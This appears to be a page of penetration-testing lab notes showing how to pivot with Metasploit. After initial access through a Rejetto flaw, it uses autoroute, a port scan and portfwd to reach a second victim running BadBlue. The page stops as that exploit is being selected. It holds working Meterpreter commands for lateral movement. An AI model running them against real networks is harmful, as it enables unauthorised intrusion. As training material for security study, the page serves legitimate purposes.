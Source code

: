 <figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption><p>pivoting</p></figcaption></figure>

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# for initial access we use the Rejetto vuln
# we don't need to upgrade our meterpreter session from 32bit to 64bit.

# pivoting.........................................................
# step 1 - adding route to the 2nd target subnet/
meterpreter > ipconfig # lists out all the network interfaces.
meterpreter > run autoroute -s <subnet> # add a static route to the network of victim 2 (10.2.27.207/24 subnet will be 10.2.25.0/24 for example).
#The route is only accessible via MSF
# background the session.

# renaming sessions fro easy identification..
sessions -n victim_1 -i 1 # -n for name, -i for id.

# step 2 - scan for an open port on the added route
meterpreter > search portscan # we use this module to search for an open port.
use 5
set RHOSTS $ip_victim2
set RPORTS 1-100 # you can scan entire 65565 ports for an open port, but we limit it to 100 to save time here.
exploit # we found port "80" open on victim 2.
# now we cant interact with victim2.
#To be able to interact with the newly routed IP, we need to port forward it to our machine from victim 1 meterpreter session.

# using the "portfwd" module to do port forwarding from victim2 to our kali.
# portfwd add -l <localPort> -p <targetPort> -r <targetIP>
meterpreter > portfwd add -l 1234 -p 80 -r $ip_victim2
# where "-p" is the victim open port we want to forward, "-l" is where we want to forward to, on our kali.

# now we can do an nmap scan, and can interact with the victim2 through port 1234.
# we can also access the service on our browser, localhost:1234
db_nmap -sS -sV -p 1234 localhost # This command will scan port 80 on the newly routed target.
# after scan, we detected victim2 is running Badblue on the port80 (we forwarded to 1234).

search Badblue
use 1
```